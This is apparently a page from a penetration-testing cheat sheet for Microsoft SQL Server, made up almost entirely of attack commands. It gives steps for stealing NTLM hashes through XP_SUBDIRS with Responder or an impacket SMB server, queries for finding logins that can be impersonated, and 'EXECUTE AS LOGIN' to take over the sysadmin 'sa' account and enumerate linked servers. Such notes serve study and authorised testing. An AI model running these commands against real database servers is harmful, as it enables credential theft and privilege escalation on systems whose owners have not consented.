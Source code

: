 ## XP_SUBDIRS Hash Stealing with Responder
```
$ sudo responder -I tun0
```

## XP_SUBDIRS Hash Stealing with impacket
```
$ sudo impacket-smbserver share ./ -smb2support
```

# Impersonate Existing Users with MSSQL
## Identify Users that We Can Impersonate
```
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO
```

## Verifying our Current User and Role
```
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go
```

## Impersonating the SA User
```
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO
```
`Note: It's recommended to run EXECUTE AS LOGIN within the master DB, because all users, by default, have access to that database. If a user you are trying to impersonate doesn't have access to the DB you are connecting to it will present an error. Try to move to the master DB using USE master.`

# Communicate with Other Databases with MSSQL
## Identify linked Servers in MSSQL
```
1> SELECT srvname, isremote FROM sysservers
2> GO
```
